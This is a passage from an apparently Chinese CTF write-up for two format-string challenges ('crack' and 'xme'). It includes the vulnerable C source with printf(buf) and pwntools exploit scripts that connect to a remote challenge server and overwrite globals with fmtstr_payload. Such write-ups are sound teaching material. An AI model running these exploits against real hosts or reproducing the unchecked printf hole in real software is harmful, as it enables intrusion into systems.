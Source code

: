     printf(buf);

我们可以利用这里的漏洞来更改password

so思路：
    
    利用fmtstr漏洞修改password
    
exploit：
```python
from pwn import *
p=remote('121.42.189.18',10007)
bss=0x804a048
log.info(hex(bss))
payload=fmtstr_payload(10,{bss:1})
p.sendline(payload)
p.recv()
p.interactive();

```

## xme
```c
#include <stdio.h>
int magic = 0 ;
int main(){
    char buf[0x100];
    setvbuf(stdout,0,2,0);
    puts("Please crax me !");
    printf("Give me magic :");
    read(0,buf,0x100);
    printf(buf);
    if(magic == 0xda){
        system("cat /home/craxme/flag");
    }else if(magic == 0xfaceb00c){
        system("cat /home/craxme/craxflag");
    }else{
        puts("You need be a phd");
    }

}
```

发现和crack基本一样
思路：
    利用fmtstr漏洞修改magic

exploit：
```python
from pwn import *
p=remote('121.42.189.18',10008)
bss=0x804a038
payload=fmtstr_payload(7,{bss:0xfaceb00c})
p.recv()
p.sendline(payload)
p.recv()
p.interactive();
```
不过老潘表示此题可以getshell
可能会有彩蛋吧
